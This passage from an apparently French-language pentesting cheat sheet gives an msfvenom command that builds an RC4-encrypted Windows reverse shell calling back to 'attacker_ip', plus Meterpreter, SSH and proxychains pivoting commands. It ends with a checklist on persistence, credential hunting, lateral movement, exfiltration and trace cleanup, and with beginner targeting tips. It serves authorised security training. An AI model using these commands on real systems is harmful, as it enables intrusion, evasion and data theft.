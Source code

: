 ```bash

# Cryptage
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe --encrypt rc4 --encrypt-key mykey > encrypted_shell.exe
```

### Pivoting et Tunneling
```bash
# 1. Avec Meterpreter
meterpreter > portfwd add -l 3389 -p 3389 -r internal_target_ip

# 2. SSH Tunneling
ssh -L 3389:internal_target_ip:3389 user@compromised_host

# 3. ProxyChains pour tout le trafic
# Configurer /etc/proxychains.conf
proxychains nmap -sT internal_network/24
```

## 📋 Checklist d'Exploitation

### ✅ Préparation :
1. **Vulnérabilité confirmée** - Exploit disponible ?
2. **Payload adapté** - OS, architecture, restrictions ?
3. **Listener configuré** - Port ouvert, handler prêt ?
4. **Backup plan** - Alternative si échec ?
5. **Cleanup plan** - Comment nettoyer après ?

### ✅ Exécution :
1. **Test en environnement lab** - Jamais direct en prod
2. **Vérification des permissions** - Autorisation écrite ?
3. **Documentation** - Screenshots, commandes, résultats
4. **Escalade immédiate** - Privilege escalation si nécessaire
5. **Persistance** - Maintien d'accès si autorisé

### ✅ Post-Exploitation :
1. **Reconnaissance système** - OS, version, utilisateurs
2. **Recherche de credentials** - Mots de passe, clés
3. **Lateral movement** - Autres systèmes accessibles ?
4. **Data exfiltration** - Quelles données sensibles ?
5. **Cleanup** - Suppression des traces

## 🎓 Tips pour Débutants

### 🤔 Par où commencer ?
1. **Applications web** - Plus faciles à exploiter
2. **Services mal configurés** - Mots de passe par défaut
3. **Versions obsolètes** - Exploits publics disponibles
4. **Permissions faibles** - Upload de fichiers, write access
